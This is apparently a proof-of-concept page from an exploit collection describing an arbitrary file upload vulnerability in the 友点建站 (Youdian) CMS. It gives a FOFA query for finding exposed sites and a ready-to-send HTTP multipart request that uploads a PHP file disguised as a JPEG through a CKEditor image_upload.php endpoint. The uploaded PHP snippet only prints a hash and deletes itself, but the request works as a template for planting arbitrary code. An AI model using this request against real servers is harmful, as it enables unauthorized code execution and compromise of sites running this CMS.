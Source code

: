 ## 友点建站系统image_upload.php存在文件上传漏洞


## fofa
```
app="友点建站-CMS"
```


## poc
```
POST /Public/ckeditor/plugins/multiimage/dialogs/image_upload.php HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data;boundary=----WebKitFormBoundarydAPjrmyKewWuf59H
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

------WebKitFormBoundarydAPjrmyKewWuf59H
Content-Disposition: form-data; name="files"; filename="ceshi.php"
Content-Type: image/jpg
 
<?php echo md5('666');unlink(__FILE__);?>
------WebKitFormBoundarydAPjrmyKewWuf59H--
```
![cc46175e2bc4984a6dacff9ec6771b37](https://github.com/wy876/POC/assets/139549762/498ea42c-e9d2-4600-b03e-f59c4f7cfd8d)

![38fb48542afcd1995688e8d030f32750](https://github.com/wy876/POC/assets/139549762/022df476-917d-4ed1-b877-3e2aff0d8611)
